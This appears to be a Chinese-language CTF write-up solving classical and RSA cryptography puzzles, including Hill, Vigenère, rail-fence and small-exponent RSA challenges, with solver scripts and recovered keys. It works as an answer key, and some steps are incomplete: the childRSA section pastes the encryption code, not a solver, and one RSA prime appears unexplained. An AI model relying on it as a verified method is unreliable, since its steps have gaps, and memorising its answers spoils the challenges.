

> v先生喝得迷迷糊糊的时候说了一些胡话,你从一堆嘟哝中听清楚了其中一小段:
>
> ...(嘟哝)..
> (int)sth_import = 889464/114514;
> ....(嘟哝)...

这里除了密码还有个提示，解出答案为7，根据题目提示，应该就是栅栏密码的**栏数**

> (int)sth_import = 889464/114514;

现在就来破解猪圈密码，这里的密码是手写的，而且并没有提示一个明确的顺序进行破解，理论上四个方向上进行解密都是可以的，这就意味着我们最多破解4次就能出来

> 最后解得：ssyirceehsagiulisolbhy
>
> 再用7栏进行解密：sreausbschglohyesiilyi


### 规规矩矩的工作

#### 考点：希尔加密

提示：

> wlz当年玩蹦蹦蹦为了抽希尔氪了很多钱
>
> hint1:让我看看是谁不好好上线代课？
>
> hint2:decode程序可能加载的有点慢并且请在命令行内运行

看到**希尔+线性代数**。立马就能反应到考的是**希尔密码**，这是比较简单的线性代数，先看看什么是希尔加密



看了加密手法让我想起了**仿射密码加密**，这个也是一个比较有意思的加密，这里就不展开了

在了解了加解密原理后，现在我们再来看看题目

> key_encrypt
> 1 1 1
> 1 2 3
> 1 3 6
>
> enc：
> 12
> 12
> 10

很明显，上面一个矩阵就是密钥了，下面的就是密文

我们先求得密钥的逆矩阵：
$$
\left[
\matrix{
1&1&1\\
1&2&3\\
1&3&6\\
}
\right]

\quad
 -->
 \quad
 
\left[
\matrix{
3&-3&1\\
-3&5&-2\\
1&-2&1\\
}
\right]
$$
再根据解密公式求解：
$$
\left[
\matrix{
3&-3&1\\
-3&5&-2\\
1&-2&1\\
}
\right]

\quad
\cdot
\quad

\left[
\matrix{
12\\
12\\
10\\
}
\right]

\quad
\cdot
\quad

\mod(26)
$$
最后得到
$$
\left[
\matrix{
10\\
4\\
-2\\
}
\right]

\quad
\cdot
\quad

\mod(26)

\quad
=
\quad

'KEY'
$$
再给的程序输入就可以得到答案了


### babyRSA

#### 考点：RSA加密

```python
from crypto.Util.number import *
from gmpy2 import *
from secret import p,flag
flag = bytes_to_long(bytes(flag, encoding='utf-8'))
q = getPrime(1024)
n = q*p
phi_ = (p-1)*(q-1)
e = 0x10001
d = invert(e,phi_)
c = (pow(flag, e, n))

print(long_to_bytes(pow(c, d, n)))
print((c,q,n))
'''out put
(177177672061025662936587345347268313127241651965256882323180749317515733256088163186914550682635245294414879862810654773207644687262596440870094409378849307188485755700138797651039936445998433830516207630858733090581643592843521203499818069822504434370840254518614785953412492701730326524258672860416318501278155194, 166836705584681518148179737955842605213272207836752187845124149461151181903779374775281529346854786259719545699157508885500818994019618158708212777833768444327658647324555090459233657737950932895018766440119999513331707759691054888319029069397903003240927552065429412176600134636921146805408664505115889561043, 191051885543358947736760989661967468461742175898801910645529003886391047898839624568290216360845330501814019720570327197669064365268607597117598905046895097642708006373182989953758208523010345148200475257538336602695211819055893667974317905617522838840325499754862033348148407978527792816186094297381925119601464149)
'''
```

这里简单的进行了RSA的加密演示

在注释一栏给了我们C，q，n，在上面还给了我们E，可以说该给的都给了，那就很简单了

我们可以写个脚本进行解码

```python
import libnum
from crypto.Util.number import long_to_bytes

q = int(
  "166836705584681518148179737955842605213272207836752187845124149461151181903779374775281529346854786259719545699157508885500818994019618158708212777833768444327658647324555090459233657737950932895018766440119999513331707759691054888319029069397903003240927552065429412176600134636921146805408664505115889561043",
    10)
p = int("1145143",10)
e = int(
    "0x10001",
    16)
c = 177177672061025662936587345347268313127241651965256882323180749317515733256088163186914550682635245294414879862810654773207644687262596440870094409378849307188485755700138797651039936445998433830516207630858733090581643592843521203499818069822504434370840254518614785953412492701730326524258672860416318501278155194

n = q * p

d = libnum.invmod(e, (p - 1) * (q - 1))
m = pow(c, d, n)  # m 的十进制形式
string = long_to_bytes(m)  # m明文
print(string)  # 结果为 b‘ m ’ 的形式
```


### Simple calculation

#### 考点：线性同余方程组

提示：

> 线性同余方程组的解可以由中国余数定理提供




简单的来说，就是

> S0 x S1 x S2 x S3 x S4  = 26 x k1 + 3
>
> S0 x S1 x S2 x 3\*S3 x 5\*S4  = 26 x k2 + 7
>
> S0 x 2\*S1 x 2\*S2 x 3\*S3 x 3\*S4  = 26 x k3 + 1
>
> S0 x 2\*S1 x 5\*S2 x 3\*S3 x S4  = 26 x k4 + 1
>
> S0 x 2\*S1 x S2 x 2\*S3 x S4  = 26 x k5 + 20

我觉得的是有一点像**百钱买百鸡问题**的，随便搞了一个简单的脚本

```python
a = ['A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z']

for i in range(0,26):
    for j in range(0, 26):
        for k in range(0, 26):
            for l in range(0, 26):
                for m in range(0, 26):
                    if (i+j+k+l+m)%26 == 3 and(i+j+k+3*l+5*m)%26 == 7 and(i+2*j+2*k+3*l+3*m)%26 == 1 and(i+2*j+5*k+3*l+m)%26 == 1 and(i+2*j+k+2*l+m)%26 == 20:

                        print("{}{}{}{}{}".format(a[i],a[j],a[k],a[l],a[m]))
```


### 韡髻猊岈

#### 考点：维吉尼亚密码

提示：

> Why not start with the short one,or make full use of Ur powerful pc and the Internet

密文

```
Oowfza errqbbirtqpl ks afiiklr cifgd ho unvhxnigkctm bugokz iaf chnxhvek tkvgnvf xeccmjkr; errqbbirtqpve aehwektana nte wfavinxe iequge kbopnuigkogbt ucrwomfu altczrtbpvf, oadjvt uuvi iyiokjbuos abzq vo usmnm ig TGP vhxsm vu nh umnts bo dviegfzr
```

记得最早有做过一道题，题目的名字也是像这个一样的，是**中文生僻字**，但读音是我们可以使用的信息我们就拿谷歌翻译读一下，在英文模式下进行朗读，出现了**维吉尼亚**，ok可以基本锁定是维吉尼亚密码了

维吉尼亚密码最重要的是找到密钥，密文中的唯一三个连在一起的大写吸引了注意力，反推回密钥中应该有**bin**三个字符，但到这里就没法继续了

在查阅资料后发现，我们可以用脚本分析密文，来推测出密钥的长度，主要是利用了英文每个字母的词频，在推测密钥是什么

最后贴出大神的脚本

```python
#coding=utf-8
#-*- coding:utf-8 –*-
def c_alpha(cipher):   # 去掉非字母后的密文
    cipher_alpha = ''
    for i in range(len(cipher)):
        if (cipher[i].isalpha()):
            cipher_alpha += cipher[i]
    return cipher_alpha

# 计算cipher的重合指数
def count_CI(cipher):
    N = [0.0 for i in range(26)]
    cipher = c_alpha(cipher)
    L = len(cipher)
    if cipher == '':
        return 0
    else:
        for i in range(L):     #计算所有字母的频数，存在数组N当中
            if (cipher[i].islower()):
                 N[ord(cipher[i]) - ord('a')] += 1
            else:
                 N[ord(cipher[i]) - ord('A')] += 1
    CI_1 = 0
    for i in range(26):
        CI_1 += ((N[i] / L) * ((N[i]-1) / (L-1)))
    return CI_1

# 计算秘钥长度为 key_len 的重合指数
def count_key_len_CI(cipher,key_len):
    un_cip = ['' for i in range(key_len)]    # un_cip 是分组
    aver_CI = 0.0
    count = 0
    for i in range(len(cipher_alpha)):
        z = i % key_len
        un_cip[z] += cipher_alpha[i]
    for i in range(key_len):
        un_cip[i]= count_CI(un_cip[i])
        aver_CI += un_cip[i]
    aver_CI = aver_CI/len(un_cip)
    return aver_CI

## 找出最可能的前十个秘钥长度
def pre_10(cipher):
    M = [(1,count_CI(cipher))]+[(0,0.0) for i in range(49)]
    for i in range(2,50):
        M[i] = (i,abs(0.065 - count_key_len_CI(cipher,i)))
    M = sorted(M,key = lambda x:x[1])   #按照数组第二个元素排序
    for i in range(1,10):
        print (M[i])

F = [
0.0651738, 0.0124248, 0.0217339,
0.0349835, 0.1041442, 0.0197881,
0.0158610, 0.0492888, 0.0558094,
0.0009033, 0.0050529, 0.0331490,
0.0202124, 0.0564513, 0.0596302,
0.0137645, 0.0008606, 0.0497563,
0.0515760, 0.0729357, 0.0225134,
0.0082903, 0.0171272, 0.0013692,
0.0145984, 0.0007836
]       # 英文字符频率。


cipher = input('请输入维吉尼亚密文：')
cipher_alpha = c_alpha(cipher)
print(u"猜测的秘钥长度为:")
pre_10(cipher)


# 猜测单个秘钥得到的重合指数
def count_CI2(cipher,n):     # n 代表我们猜测的秘钥，也即偏移量
    N = [0.0 for i in range(26)]
    cipher = c_alpha(cipher)
    L = len(cipher)
    for i in range(L):     #计算所有字母的频数，存在数组N当中
        if (cipher[i].islower()):
            N[(ord(cipher[i]) - ord('a') - n)%26] += 1
        else:
            N[(ord(cipher[i]) - ord('A') - n)%26] += 1
    CI_2 = 0
    for i in range(26):
        CI_2 += ((N[i] / L) * F[i])
    return CI_2

def one_key(cipher,key_len):
    un_cip = ['' for i in range(key_len)]
    cipher_alpha = c_alpha(cipher)
    for i in range(len(cipher_alpha)):     # 完成分组工作
        z = i % key_len
        un_cip[z] += cipher_alpha[i]
    for i in range(key_len):
        print (i)
        pre_5_key(un_cip[i])     ####这里应该将5个分组的秘钥猜测全部打印出来

## 找出前5个最可能的单个秘钥
def pre_5_key(cipher):
    M = [(0,0.0) for i in range(26)]
    for i in range(26):
        M[i] = (chr(ord('a')+i),abs(0.065 - count_CI2(cipher,i)))
    M = sorted(M,key = lambda x:x[1])   #按照数组第二个元素排序

    for i in range(10):
        print (M[i])

key_len = int(input('请输入猜测的密钥长度：'))   #输入猜测的秘钥长度
one_key(cipher,key_len)
```

最后可以得到**密钥长度为6，密钥为catbin**


### childRSA

#### 考点：RSA小指数e爆破

提示：

> v先生有一边听广播一边码字的坏习惯。为了保证coding工作的正确性，v先生今天把数据多算了几遍

题目给了我们一个算法，和三组数据，其中我们知道了**e=3，三组c&n**

这个e是小的，直接反应到小指数爆破

> 当e=3时，如果明文过小，导致明文的三次方仍然小于n，那么通过直接对密文三次开方，即可得到明文
>
> 原理：加密为c=m^e mod n    解密为m=c^d mod n
>
> 分析：如果e过小（m^e<n或者m^e<2*n） 就可以直接对c开方。 m^e=k*n+c

所以直接脚本爆破

```python
from Crypto.PublicKey import RSA
from secret import flag
from Crypto.Util.number import bytes_to_long, long_to_bytes


M_ = bytes_to_long(bytes(flag, encoding='utf-8'))

Cipher = []
for i in range(3):
    rsa = RSA.generate(1024, e=3)
    print("n{} = {}".format(i+1,hex(rsa.n)))
    C_ = (pow(M_,rsa.e,rsa.n))  # m e n
    print("c{} = {}".format(i+1, hex(C_)))
```

